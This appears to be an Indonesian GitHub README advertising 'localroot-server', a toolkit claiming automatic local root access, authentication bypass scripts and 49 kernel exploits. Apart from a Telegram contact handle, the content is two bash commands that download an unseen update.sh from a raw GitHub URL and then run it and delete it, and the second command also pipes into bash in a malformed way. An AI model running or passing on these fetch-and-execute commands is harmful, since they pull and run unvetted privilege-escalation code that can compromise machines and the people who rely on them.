

 Author : Ghost Haxor|Mr.W4W4N
# ⚙️ localroot-server

**localroot-server** adalah kumpulan skrip dan konfigurasi untuk mengelola server lokal dengan akses root. Dirancang untuk keperluan audit keamanan, automatisasi, dan pengujian.

---

## 🔍 Fitur

- 🚀 Akses root lokal otomatis
- 🔐 Penguatan sistem (hardening)
- 🔄 Manajemen user & permission
- 🧪 Skrip bypass otentikasi (testing)
- 📁 Kontrol file & konfigurasi sistem
- 🔎 pentester 49 Exploit karnel
---

## telegram ☎️ @seotampanidaman

```bash

wget https://raw.githubusercontent.com/mrwawanj/localroot/refs/heads/main/update.sh
```

```bash
chmod +x update.sh && ./update.sh && rm update.sh | bash update.sh
```
